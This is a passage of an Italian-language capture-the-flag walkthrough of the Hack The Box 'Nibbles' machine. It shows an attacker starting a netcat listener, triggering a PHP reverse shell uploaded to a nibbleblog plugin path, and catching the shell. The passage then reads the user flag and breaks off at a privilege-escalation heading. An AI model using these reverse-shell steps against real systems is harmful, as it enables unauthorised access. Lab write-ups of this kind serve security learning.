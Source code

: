 ![](../zzz_rev/attachments/nibble5.png)

Ci mettiamo in ascolto con nc:

```bash
┌──(root㉿kali)-[/home/kali/htb/nibbles]
└─# nc -lnvp 443           
listening on [any] 443 ...
```

visitiamo la pagina "http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php" che é la path su cui è stata salvata nostra revshell in php e otteniamo una shell

```bash
┌──(root㉿kali)-[/home/kali/htb/nibbles]
└─# nc -lnvp 443           
listening on [any] 443 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.75] 50808
/bin/sh: 0: can't access tty; job control turned off
```

Otteniamo la flag user
```bash
$ cat user.txt
edb79d68ee9a9cb406071dea9debd536
```

# PRIVESC
